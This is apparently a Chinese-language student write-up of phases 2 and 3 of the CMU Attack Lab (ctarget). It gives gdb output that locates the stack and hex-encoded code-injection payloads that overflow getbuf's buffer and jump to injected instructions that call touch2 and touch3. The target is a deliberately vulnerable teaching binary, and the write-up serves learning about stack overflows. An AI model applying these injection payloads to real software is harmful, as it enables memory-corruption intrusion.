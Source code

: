 ```
$ gdb ./ctarget
(gdb) break getbuf
(gdb) run -qi 1.bin
(gdb) disas
Dump of assembler code for function getbuf:
=> 0x00000000004018b2 <+0>:	sub    $0x38,%rsp
   0x00000000004018b6 <+4>:	mov    %rsp,%rdi
   0x00000000004018b9 <+7>:	callq  0x401bef <Gets>
   0x00000000004018be <+12>:	mov    $0x1,%eax
   0x00000000004018c3 <+17>:	add    $0x38,%rsp
   0x00000000004018c7 <+21>:	retq   
End of assembler dump.
(gdb) stepi
14	in buf.c
(gdb) p /x $rsp
$1 = 0x5561b7b8
```

这时得到的就是栈底的位置，直接把代码放在栈底并跳转到这个位置执行。
```
48 c7 c7 4f 
94 c3 77 68 
68 19 40 00 
c3 00 00 00 
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
b8 b7 61 55
```

保存为2.txt，同样用hex2raw处理之后运行
```
./hex2raw < 2.txt >2.bin
./ctarget -qi 2.bin
```
第二关就过了。

## phase3

这里要把cookie作为一个字符串传给touch3，跟phase2类似，将%rdi设为栈中cookie字符串的地址。 cookie转换成字符串后得到
```
37 37 63 33 39 34 34 66
```

此处考虑把cookie放在更高的位置，这样不容易被栈的变动更改。 小心计算cookie字符串的地址，与phase2类似编写汇编后得到
```
48 c7 c7 f8
b7 61 55 68
7f 1a 40 00  
c3 00 00 00 
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
```